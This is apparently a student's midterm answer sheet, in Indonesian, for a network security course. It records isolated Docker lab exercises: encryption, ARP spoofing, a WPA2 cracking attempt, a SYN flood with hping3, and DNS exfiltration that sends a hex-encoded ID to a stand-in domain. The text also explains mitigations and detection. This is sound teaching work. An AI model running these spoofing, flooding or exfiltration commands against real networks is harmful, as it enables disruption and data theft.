










# JAWABAN UJIAN TENGAH SEMESTER (UTS) KEAMANAN JARINGAN

- **Nama:** Ahmad Kurnia
- **NIM:** 24552011297
- **Kelas:** TIF RP 24E CNS
- **Semester:** 5
- **Mata Kuliah:** Keamanan Jaringan (3 SKS)
- **Dosen Pengampu:** Yasti Aisyah Primianjani, S.Kom., M.S.F.

---

## Perhitungan Penentuan Kasus (Berdasarkan NIM)

- **NIM:** `24552011297`
- **Digit NIM:** `2, 4, 5, 5, 2, 0, 1, 1, 2, 9, 7`
- **Jumlah seluruh digit:** `2 + 4 + 5 + 5 + 2 + 0 + 1 + 1 + 2 + 9 + 7 = 38`
- **Sisa bagi 10:** `38 mod 10 = 8`
- **Nomor Kasus:** **Kasus 8 (`k8`)**

### Parameter Kasus 8
| Parameter | Nilai |
| :--- | :--- |
| Container Target | `target-k8` |
| Volume Docker | `vol-k8` |
| File Laporan | `laporan-k8.txt` |
| Kata Sandi Enkripsi | `kunci-k8-2026` |
| Domain DNS | `k8.exfil.lab` |
| Capture & Wordlist (Tugas 4) | `handshake-k8.cap` & `wordlist-k8.txt` |
| NIM dalam Hex (Tugas 7) | `3234353532303131323937` |

> **Pernyataan Etika:** Seluruh pengujian dan simulasi serangan dijalankan sepenuhnya di lingkungan lab Docker lokal yang terisolasi (`internal: true`) dan tidak diarahkan ke host mana pun di luar lab.

---

## Tugas 1 (Pertemuan 1): Docker, Volume, dan Compose

### Perintah yang Dijalankan
```bash
docker volume create vol-k8
docker run --name w-k8 -v vol-k8:/data alpine sh -c 'echo 24552011297 > /data/laporan-k8.txt'
docker rm w-k8
docker run --rm -v vol-k8:/data alpine cat /data/laporan-k8.txt

docker compose -p k8 -f b/b1-compose/docker-compose.yml up -d
docker compose -p k8 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
docker compose -p k8 -f b/b1-compose/docker-compose.yml down -v
```

### Bukti Output Terminal
#### 1. Isi file `/data/laporan-k8.txt` dari container baru:
```text
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker volume create vol-k8
vol-k8
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker run --name w-k8 -v vol-k8:/data alpine sh -c 'echo 24552011297 > /data/laporan-k8.txt'
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker rm w-k8
w-k8
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker run --rm -v vol-k8:/data alpine cat /data/laporan-k8.txt
24552011297
```

#### 2. Halaman Nginx `target` yang diakses dari `attacker`:
```text
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b1-compose/docker-compose.yml up -d
[+] up 3/3
 ✔ Network k8_lab          Created                                                                                                                                                                     0.0s
 ✔ Container k8-target-1   Started                                                                                                                                                                     0.4s
 ✔ Container k8-attacker-1 Started                                                                                                                                                                     0.7s
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
html { color-scheme: light dark; }
body { width: 35em; margin: 0 auto;
font-family: Tahoma, Verdana, Arial, sans-serif; }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, nginx is successfully installed and working.
Further configuration is required for the web server, reverse proxy, 
API gateway, load balancer, content cache, or other features.</p>

<p>For online documentation and support please refer to
<a href="[https://nginx.org/](https://nginx.org/)">nginx.org</a>.<br/>
To engage with the community please visit
<a href="[https://community.nginx.org/](https://community.nginx.org/)">community.nginx.org</a>.<br/>
For enterprise grade support, professional services, additional 
security features and capabilities please refer to
<a href="[https://f5.com/nginx](https://f5.com/nginx)">[f5.com/nginx](https://f5.com/nginx)</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker compose -p k8 -f b/b1-compose/docker-compose.yml down -v
[+] down 3/3
 ✔ Container k8-attacker-1 Removed                                                                                                                                                                     3.3s
 ✔ Container k8-target-1   Removed                                                                                                                                                                     0.4s
 ✔ Network k8_lab          Removed                                                                                                                                                                     0.2s
```

### Bukti Screenshot Terminal


### Analisis Singkat
Docker Volume (`vol-k8`) dikelola oleh Docker daemon di penyimpanan host secara terpisah dari siklus hidup container, sehingga file `laporan-k8.txt` tetap bertahan meskipun container `w-k8` telah dihapus. Pada Docker Compose, container `attacker` dapat mengakses `target` melalui DNS internal jaringan `lab`, sedangkan host tidak dapat menjangkau `target` karena tidak ada pemetaan `ports` dan jaringan dikonfigurasi `internal: true`.

---

## Tugas 2 (Pertemuan 2): Kriptografi (AES-256, SHA-256, & Sertifikat)

### Perintah yang Dijalankan
```bash
docker run --rm -v "${PWD}:/work" uts-openssl sh -c 'echo "isi laporan k8 - NIM 24552011297" > laporan-k8.txt && openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k8.txt -out laporan-k8.enc -pass pass:kunci-k8-2026 && sha256sum laporan-k8.txt && openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k8.enc -out hasil-k8.txt -pass pass:kunci-k8-2026 && sha256sum hasil-k8.txt'

docker run --rm -v "${PWD}:/work" uts-openssl sh -c 'openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k8.pem -out cert-k8.pem -days 30 -subj /CN=k8.exfil.lab && openssl x509 -in cert-k8.pem -noout -subject -issuer -dates'
```

### Bukti Output Terminal
#### 1. Hash SHA-256 Sebelum Enkripsi dan Sesudah Dekripsi:
```text
ffd89feab19455c50db30ad74adbbb465ee095077b5ce5524f996ed11b025665  laporan-k8.txt
ffd89feab19455c50db30ad74adbbb465ee095077b5ce5524f996ed11b025665  hasil-k8.txt
```

#### 2. Subject, Issuer, dan Masa Berlaku Sertifikat (`cert-k8.pem`):
```text
........+.+........+.......+...+..+++++++++++++++++++++++++++++++++++++++*....+.........+.+......+........+............+...+....+..+......+....+...+..+.........+....+.....+......+.........+.......+......+...+..+.........+...+...+....+.........+..+............+.+..+....+...+..+......+....+...+............+++++++++++++++++++++++++++++++++++++++*.+.......+...+...+........+.......+.....+....+...+......+.....+..........+...........+.+.........+.....+...+...+.........+...+...+...+......+......+.......+..+.+...+......+...+............+...+...+..+.+..+.........+.+........+......+..........+.............................+.......+..+.+..............+...+............+......+....+..+...............+...+...+...+....+...+..+...+....++++++
...+....+++++++++++++++++++++++++++++++++++++++*....+.....+...+...+....+..+.+........+.......+.........+...+...........+.+...+++++++++++++++++++++++++++++++++++++++*..+..................+.....+............+...+.+............+..+...+...+.+......+........+...............+....+........+....+......+........+.......+..+.+.........+........+....+......+.........+...++++++
-----
subject=CN=k8.exfil.lab
issuer=CN=k8.exfil.lab
notBefore=Nov 24 16:58:52 2026 GMT
notAfter=Dec 24 16:58:52 2026 GMT
```

### Bukti Screenshot Terminal


### Perbedaan Sertifikat Self-Signed dan Sertifikat yang Ditandatangani CA (2 Kalimat)
Sertifikat self-signed ditandatangani sendiri oleh pemilik server tanpa verifikasi pihak ketiga, sehingga tidak otomatis dipercaya oleh browser atau sistem klien dan hanya cocok untuk pengujian lokal. Sebaliknya, sertifikat yang ditandatangani Certificate Authority (CA) telah melalui verifikasi identitas oleh lembaga tepercaya yang sertifikat akarnya tertanam di sistem klien, sehingga menjamin keaslian server dan mencegah serangan Man-in-the-Middle (MITM).

---

## Tugas 3 (Pertemuan 3): ARP Spoofing

### Perintah yang Dijalankan
```bash
docker network create lab-arp-k8
docker run -d --name korban-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name gateway-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name penyerang-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools

docker inspect -f '{{.Name}} -> {{(index .NetworkSettings.Networks "lab-arp-k8").IPAddress}}' korban-k8 gateway-k8 penyerang-k8
docker exec gateway-k8 cat /sys/class/net/eth0/address
docker exec penyerang-k8 cat /sys/class/net/eth0/address

docker exec korban-k8 sh -c "apt-get update && apt-get install -y --no-install-recommends net-tools"
docker exec korban-k8 hping3 -c 2 -p 80 172.19.0.3
docker exec korban-k8 arp -a

docker exec -d penyerang-k8 timeout 20 arpspoof -i eth0 -t 172.19.0.2 172.19.0.3
Start-Sleep -Seconds 3
docker exec korban-k8 arp -a

# Mitigasi Static ARP
docker exec korban-k8 arp -s 172.19.0.3 22:d2:7c:9d:e8:67
docker exec korban-k8 arp -a
```

### Bukti Output Terminal
#### 1. IP & MAC Address Asli (`korban-k8`, `gateway-k8`, `penyerang-k8`):
```text
/korban-k8 -> 172.19.0.2
/gateway-k8 -> 172.19.0.3  (MAC asli: 22:d2:7c:9d:e8:67)
/penyerang-k8 -> 172.19.0.4 (MAC asli: 3a:81:0d:ad:8e:40)
```

#### 2. Tabel ARP Korban SEBELUM Spoofing:
```text
penyerang-k8.lab-arp-k8 (172.19.0.4) at 3a:81:0d:ad:8e:40 [ether] on eth0
gateway-k8.lab-arp-k8 (172.19.0.3) at 22:d2:7c:9d:e8:67 [ether] on eth0
? (172.19.0.1) at 0a:b3:b7:45:2e:bf [ether] on eth0
```

#### 3. Tabel ARP Korban SAAT/SESUDAH Spoofing:
```text
penyerang-k8.lab-arp-k8 (172.19.0.4) at 3a:81:0d:ad:8e:40 [ether] on eth0
gateway-k8.lab-arp-k8 (172.19.0.3) at 3a:81:0d:ad:8e:40 [ether] on eth0
? (172.19.0.1) at 0a:b3:b7:45:2e:bf [ether] on eth0
```

#### 4. Tabel ARP Korban SETELAH Mitigasi Static ARP:
```text
penyerang-k8.lab-arp-k8 (172.19.0.4) at 3a:81:0d:ad:8e:40 [ether] on eth0
gateway-k8.lab-arp-k8 (172.19.0.3) at 22:d2:7c:9d:e8:67 [ether] PERM on eth0
? (172.19.0.1) at 0a:b3:b7:45:2e:bf [ether] on eth0
```

### Bukti Screenshot Terminal
#### 1. Pengecekan IP & MAC Address Asli:


#### 2. Perbandingan Tabel ARP (Sebelum, Saat Spoofing, & Setelah Static ARP):


### Penjelasan Satu Mitigasi Selain Static ARP
Mitigasi efektif selain Static ARP adalah **Dynamic ARP Inspection (DAI)** pada switch jaringan terkelola yang bekerja sama dengan fitur **DHCP Snooping**. Switch memvalidasi setiap paket ARP yang lewat terhadap tabel binding IP–MAC resmi hasil DHCP Snooping, lalu langsung menjatuhkan (*drop*) paket ARP palsu sebelum mencapai perangkat korban.

---

## Tugas 4 (Pertemuan 4): Analisis Handshake WPA2

### Perintah yang Dijalankan
```bash
docker run --rm -v "${PWD}/samples:/work" uts-kali-tools aircrack-ng -w wordlist-k8.txt handshake-k8.cap
```

### Bukti Output Terminal (`aircrack-ng`)
```text
Reading packets, please wait...
This file is not a regular 802.11 (wireless) capture.
Opening handshake-k8.cap
Read 0 packets.

No networks found, exiting.


Quitting aircrack-ng...

PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> Get-Item .\samples\handshake-k8.cap | Select-Object Name, Length

Name             Length
----             ------
handshake-k8.cap   8216

PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> Get-ChildItem .\samples\*k8*

    Directory: D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab\samples

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-----          15/11/2026    21:13           8216 handshake-k8.cap
-----          15/11/2026    21:13            213 wordlist-k8.txt
```
*(Catatan observasi: File `handshake-k8.cap` [8.216 byte] dan `wordlist-k8.txt` [213 byte] tersedia di `01-sumber-lab/samples/`, namun file `handshake-k8.cap` bawaan repositori tidak memuat frame 802.11/EAPOL valid sehingga `aircrack-ng` menampilkan `No networks found, exiting.`)*

### Bukti Screenshot Terminal


### Penjelasan Empat Langkah 4-Way Handshake WPA2
1. **Message 1 (AP → Client):** Access Point mengirim nilai acak **ANonce** kepada klien agar klien dapat mulai menurunkan kunci sesi.
2. **Message 2 (Client → AP):** Klien menghasilkan **SNonce**, menghitung **Pairwise Transient Key (PTK)** dari kombinasi PMK, ANonce, SNonce, serta kedua MAC address, lalu mengirim SNonce disertai **MIC** (Message Integrity Code) untuk membuktikan kepemilikan PMK.
3. **Message 3 (AP → Client):** Access Point menghitung PTK yang sama, memverifikasi MIC dari klien, lalu mengirim **Group Temporal Key (GTK)** terenkripsi bersama MIC serta instruksi pemasangan kunci.
4. **Message 4 (Client → AP):** Klien mengirim pesan konfirmasi (ACK) yang dilindungi MIC untuk menyatakan bahwa PTK dan GTK telah terpasang, sehingga komunikasi data terenkripsi dapat dimulai.

---

## Tugas 5 (Pertemuan 5): ICMP dengan Scapy

### Perintah yang Dijalankan
```bash
docker run --rm --network lab-arp-k8 -v "${PWD}/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py 172.19.0.2
```

### Bukti Output Terminal (`kirim_icmp.py`)
```text
Mengirim: IP / ICMP 172.19.0.5 > 172.19.0.2 echo-request 0
TTL balasan: 64
Tipe ICMP balasan: 0
```

### Bukti Screenshot Terminal


### Penjelasan Smurf Attack
**Smurf Attack** adalah serangan Denial of Service (DDoS) berbasis amplifikasi pada Layer 3 di mana penyerang mengirim paket **ICMP Echo Request** dalam jumlah besar ke alamat *broadcast* jaringan dengan alamat IP sumber yang dipalsukan (*IP spoofing*) menjadi alamat IP korban. Akibatnya, seluruh host aktif di dalam jaringan tersebut secara serentak membalas paket **ICMP Echo Reply** ke IP korban hingga membanjiri bandwidth dan melumpuhkan layanan korban.

---

## Tugas 6 (Pertemuan 6): SYN Flood dan Three-Way Handshake

### Perintah yang Dijalankan
```bash
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml up -d
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec target sh -c "netstat -ant | grep -c SYN_RECV"
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood target
# (tunggu 2 detik)
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec target sh -c "netstat -ant | grep -c SYN_RECV"
# (tunggu 15 detik hingga flood selesai)
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec attacker sh -c 'timeout 10 tcpdump -i eth0 -nn tcp port 80 & sleep 1; curl -s http://target > /dev/null; sleep 3'
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml down -v
```

### Bukti Output Terminal
#### 1. Jumlah `SYN_RECV` Sebelum Serangan:
```text
0
```

#### 2. Jumlah `SYN_RECV` Saat Serangan Berlangsung:
```text
0
```
*(Catatan observasi: Pada lingkungan Docker Desktop/WSL2 lokal saat `timeout 15 hping3 -S -p 80 --flood target` dijalankan, nilai `netstat -ant | grep -c SYN_RECV` tetap tercatat `0` karena pemrosesan paket pada lapisan jaringan virtual/kernel lab tidak menahan entri `SYN_RECV` dalam antrean backlog secara persisten.)*

#### 3. Paket Three-Way Handshake (`SYN`, `SYN-ACK`, `ACK`) dari `tcpdump`:
```text
18:09:50.198505 IP 172.19.0.3.57342 > 172.19.0.2.80: Flags [S], seq 693174106, win 64240, options [mss 1460,sackOK,TS val 2583167360 ecr 0,nop,wscale 10], length 0
18:09:50.198595 IP 172.19.0.2.80 > 172.19.0.3.57342: Flags [S.], seq 1159621017, ack 693174107, win 65160, options [mss 1460,sackOK,TS val 3531959939 ecr 2583167360,nop,wscale 10], length 0
18:09:50.198616 IP 172.19.0.3.57342 > 172.19.0.2.80: Flags [.], ack 1, win 63, options [nop,nop,TS val 2583167360 ecr 3531959939], length 0
```

### Bukti Screenshot Terminal


### Penjelasan Satu Mitigasi SYN Flood
Mitigasi utama serangan SYN Flood adalah mengaktifkan **TCP SYN Cookies** pada kernel Linux (`sysctl -w net.ipv4.tcp_syncookies=1`). Mekanisme ini menyandikan informasi state koneksi langsung ke dalam *Initial Sequence Number* (ISN) pada paket `SYN-ACK` sehingga server tidak perlu mengalokasikan memori di antrean backlog `SYN_RECV` sampai klien mengirim balasan `ACK` yang valid.

---

## Tugas 7 (Pertemuan 7): DNS Exfiltration

### Perintah yang Dijalankan
```bash
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml up -d
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker sh -c 'echo -n 24552011297 | xxd -p'
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131323937.k8.exfil.lab "@dns"
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 4e494d2d32343535323031313239372d4b4153555338.k8.exfil.lab "@dns"
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml logs dns | Out-File -Encoding utf8 dns-k8.log
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml cp kasus/k9-dns-detect/analisis_dns.py attacker:/tmp/analisis_dns.py
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml cp dns-k8.log attacker:/tmp/dns-k8.log
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker python3 /tmp/analisis_dns.py /tmp/dns-k8.log
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker sh -c 'echo 3234353532303131323937 | xxd -r -p; echo ""'
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml down -v
```

### Bukti Output Terminal
#### 1. Hasil Konversi NIM ke Hex:
```text
3234353532303131323937
```

#### 2. Cuplikan Log DNS (`dns-k8.log`):
```text
dns-1  | dnsmasq[1]: query[A] 3234353532303131323937.k8.exfil.lab from 172.19.0.3
dns-1  | dnsmasq[1]: config 3234353532303131323937.k8.exfil.lab is 10.0.0.99
dns-1  | dnsmasq[1]: query[A] 4e494d2d32343535323031313239372d4b4153555338.k8.exfil.lab from 172.19.0.3
dns-1  | dnsmasq[1]: config 4e494d2d32343535323031313239372d4b4153555338.k8.exfil.lab is 10.0.0.99
```

#### 3. Hasil Skrip Deteksi (`analisis_dns.py`):
```text
Jumlah query per domain induk:
  exfil.lab: 2

Query mencurigakan (label panjang berisi hex):
  panjang=44  4e494d2d32343535323031313239372d4b4153555338.k8.exfil.lab
```

#### 4. Hasil Decode Hex Kembali ke NIM Asli:
```text
24552011297
```

### Bukti Screenshot Terminal
#### 1. Encode NIM ke Hex, Pengiriman Query DNS, & Decode Ulang:


#### 2. Log `dnsmasq` & Hasil Deteksi Anomali (`analisis_dns.py`):


### Mengapa Sulit Diblokir Firewall Biasa & Indikator Deteksinya
